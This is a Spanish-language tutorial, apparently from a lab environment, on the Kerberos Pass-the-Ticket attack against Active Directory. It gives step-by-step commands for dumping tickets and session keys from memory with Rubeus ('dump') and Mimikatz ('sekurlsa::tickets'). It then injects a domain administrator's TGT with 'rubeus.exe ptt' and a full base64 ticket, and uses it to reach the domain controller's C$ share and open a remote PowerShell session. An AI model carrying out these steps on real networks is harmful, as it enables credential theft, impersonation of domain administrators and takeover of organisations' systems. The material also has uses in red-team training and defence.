








PASSTHETICKET
ES OTRA TÉCNICA MUY UTILIZADA QUE COMPARTE CIERTOS FACTORES CON LAS ANTERIORES PERO TIENE ALGUNAS PARTICULARIDADES QUE LA PUEDEN HACER MÁS EFECTIVA EN CIERTOS MOMENTOS.
Otra de las cosas que se generan cuando un usuario se autentica es un TGT si se utiliza kerberos y además algún ticket de servicio.
Si en una powershell sin privilegios podemos ver los tickets de kerberos asignados al usuario

Tenemos un TGT del servidor krbtgt y un TGS para el servicio LDAP.
Con la misma técnica de volcado de TGT podemos volcar también la clave de sesión asociada.
Si iniciamos una powershell como administrador del dominio, este además de haber dejado sus credenciales en una sesión de logon también ha solicitado un TGT y un TGS. Por lo tanto en memoria se encuentran ambos.
Para poder volcar esta información tendremos que ser administradores locales del equipo.
Con rubeus en una powershell como administrador local:
rubeus.exe dump

Vuelca todos los tickets que se encuentren en el equipo entre los que se encuentra el del administrador del dominio.

Lo que vuelca aquí rubeus es el TGT más la clave de session con la que está cifrado en el conjunto.
Hay otro método con Mimikatz:
sekurlsa::tickets

Lo importante es que mimikatz separa la session key del ticket a diferencia de rubeus.
Ahora podemos re-inyectar ese ticket en otra logonsession de otro usuario administrador.
La diferencia de los anteriores métodos es que cuando hemos obtenido el ticket podemos movernos a otro terminal o usar un usuario sin privilegios, ni siquiera locales.
Rubeus permite importar TGT y sessionkey sin privilegios de administración.
Esto significa que podemos conseguir este TGT y la sessionkey de un equipo, llevarlo a otro completamente distinto y sin ningún privilegio e inyectarlo en la sesión de ese usuario para poder consumir servicios en nombre del administrador del dominio.
Para formatear el ticket tenemos que quitar los espacios y quitar los saltos de línea.
Con el ticket listo.
rubeus.exe ptt /ticket:doIFyDCCBcSgAwIBBaEDAgEWooIEzjCCBMphggTGMIIEwqADAgEFoQwbCkNPUlAuTE9DQUyiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCkNPUlAuTE9DQUyjggSKMIIEhqADAgESoQMCAQKiggR4BIIEdAj834JeavppTumcmbs3fg11wVcUCZrNsLmYtkhCm1iFVI7uMFXy1DOgAP1brwQvIuv/ADK7L3CjA159td6bCWu+rCv/BlyfHmH5HpvVpDTseAy2IR7/bzjzPBXomA9MlI4MyY9Xv88+jGc4wvoWMWILCvoLK/Pmjc+QxJHSMMzLhhyCGpJUL1Gozx53KPVbDfTELPjJ+NdrpTYxFOXLOrl845CpeRPyrx5VzgpP6rmGtpM74IIjh1AG381gjO98rB/0LeDfZubZ13l4VwuDYBU42wkRfRqu8RxsJ2gxz34h9/ZzFSLSEoimkDZ3WctbCAJBd+/O9mdZeLjcZAJlO03MD/t4voqG3goyznnuwERoTqUg/M/4AWt41KRx4N62pHwLIJywK43V9ZyJbF2yjkoECNGfiziiXLGCTt7R9xhIbomgzdhu4bi4q0yNmm6IoUbwn0h0UlJ69i+xIkx47O0anWb3oxX4BTmSxgUEB2fZDlwKiFFXIX68iad5+MHzmryqooHfSM5hJxVRX8daIyOOZME9qPXwP0eLhRNZd563y4Rog6K0apoOvsOp8GA8wVdaXVBYCE+v8n/vTui5h1GkHnyM0flCXRWdpXz2jCIT3rF63glKuqfBv+LCaMauxFJ9PWqPNC4YanWpx4eRaMAb4i6oC61H4g85GaPPywvUoAX4Y7mOd4Hk03NzjcsV5DmrskyskHme3MfF+cN7/3JvkuuOvmHrD+jTXX9I7m+U1aQrF9Ur+JzlwreQF2HffTQMsOEpJBYsmbz5Vh+9jM8wIgm0KwMJa5vUTZMWkkDLyOJ50p39TrAkQTGHOW8u86NaO6AkGiV5kullUmGi9Q7QMrION/a150UwVovoQiyWIQYcRBHUuDx0L9/LhXxW6dqsA6IWrz3fYCx9nhDzQ+oMqoyKkRcFRNdffcY5CSqRcaYeyUOxez1Kmlx0JCnyaWp0bie8h8Uw0aviIUioQDTF2uslKpBeTV0toMlZTKsOBnBEB5UV4UZSdMqg5Bmi7mCQh9/Vi+a/QNfTpzO6yDkARF+I8Jbk9ik48QEQnm65UPCnBPKrPZ6Z84kA2hDp+dnAqH7nU+5vS4tYiEBQrtaxIk0D+apw/di+TxuNNhsYHoF05n9S3RW7pMlgOVsW1jCBkYTsHML/Kuy/gsnm2vziBOsieGD1LvSWZ5k62gYOqsgQdpwGJDTdLDqXyMGg05llC26OueMUmS0yrqUUkTChdjy2b3GLD5RW/68ANzLqpIoebk7Gde3+q/PZIazg2e4JHIdSlREnRHEmTinMXWSJyqGIoOUaDqeo1ho+B2/0ZlSbCOcmzCae7akySpsEl9c+qZocqKN6jz3D3Z3yBpMGOBc4pxCapCD5tZWyxqHQ3LaimJX+pFyRigMgsHkdLG+J+HYjiRreKCt5qLQS61wBVQB55hQTYA+XPcCmoajpbjhs1P6J9Eu1ghE4inPX5ARiNaIXmnZkqjKLKwuR0d58SZncsfWeK4d79Mw3NeGc8znkO6OB5TCB4qADAgEAooHaBIHXfYHUMIHRoIHOMIHLMIHIoCswKaADAgESoSIEIGBFeU9pKSa/cB7H7J5+zVu5CSklcU6d52CXfomvbE78oQwbCkNPUlAuTE9DQUyiGjAYoAMCAQGhETAPGw1BZG1pbmlzdHJhZG9yowcDBQBA4QAApREYDzIwMjQwMzA0MjAzMDI2WqYRGA8yMDI0MDMwNTA2MzAyNlqnERgPMjAyNDAzMTEyMDMwMjZaqAwbCkNPUlAuTE9DQUypHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCkNPUlAuTE9DQUw

Si ahora listamos los tickets del logonsession:

Vemos como tenemos el TGT del usuario administrador.
dir \\DC01\C$
Ahora por lo tanto podemos hacer peticiones a los servicios haciéndonos pasar por el usuario administrador:

También si queremos por ejemplo una sesión remota de cualquier equipo:
Enter-PSSession -ComputerName DC01

Lo mas importante es que una vez que consigues importar un ticket de servicio y su clave de sesión podemos importarlo en cualquier usuario sin ningún tipo de privilegio aunque es importante que deben ser el TGT y la SessionKey.